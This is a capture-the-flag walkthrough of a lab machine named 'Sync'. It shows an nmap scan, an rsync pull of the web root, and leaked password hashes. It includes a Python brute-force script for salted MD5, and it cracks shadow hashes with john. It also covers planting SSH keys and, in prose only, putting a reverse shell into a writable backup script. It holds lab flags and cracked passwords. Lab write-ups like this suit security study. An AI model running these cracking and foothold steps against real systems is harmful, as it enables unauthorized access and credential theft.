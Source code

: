 ```yaml
---
title: "Sync"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



Scan :

```sh
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 516254e8c91bab8266a85b6b83fa3294 (ECDSA)
|_  256 8a2c9a78812ba19a10bb00bfeecbf832 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh
rsync -av rsync://$target:873/httpd ./
```

```sh
1|admin|7658a2741c9df3a97c819584db6e6b3c
2|triss|a0de4d7f81676c3ea9eabcadfd2536f6
```

- Easy Brute force :
```sh
import hashlib

# Function to compute the MD5 hash of a given string
def compute_md5_hash(input_string):
    return hashlib.md5(input_string.encode()).hexdigest()

# Given parameters
secure_string = '6c4972f3717a5e881e282ad3105de01e'  # Replace with actual secure string
username = 'triss'  # Replace with actual username
target_hash = 'a0de4d7f81676c3ea9eabcadfd2536f6'

# Open and read the file containing potential passwords
with open('/usr/share/wordlists/rockyou.txt', 'r') as file:
    for line in file:
        # Remove any leading/trailing whitespace characters like newlines
        password = line.strip()
        
        # Create the string to be hashed
        string_to_hash = f'{secure_string}|{username}|{password}'
        
        # Compute the hash of the string
        hashed_string = compute_md5_hash(string_to_hash)
        
        # Compare with the given hash
        if hashed_string == target_hash:
            print(f'Password found: {password}')
            break
    else:
        print('Password not found in the file.')
```

- Password found : gerald

- Foothold : We have write access and there is an ssh port open so we can create an .ssh folder with an authorized_keys to be able to connect with ssh 

- We found a backup directory we extract it on our machine and got passwd and shadow file so we tried to cracks it :

```sh
unshadow passwd shadow > unshadowed.txt 

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

sakura           (sa)     
gerald           (jennifer)     
gerald           (triss) 
```

- User : VL{bcf845cf94864fbba7e016d9fcd3a2db} 

- We see that sakura has write permission on backup file so we modify the file un put another reverse shell and wait : 
![[sync.png]]
- Root : VL{1ce8506d2bec0abb03177353db237e1b}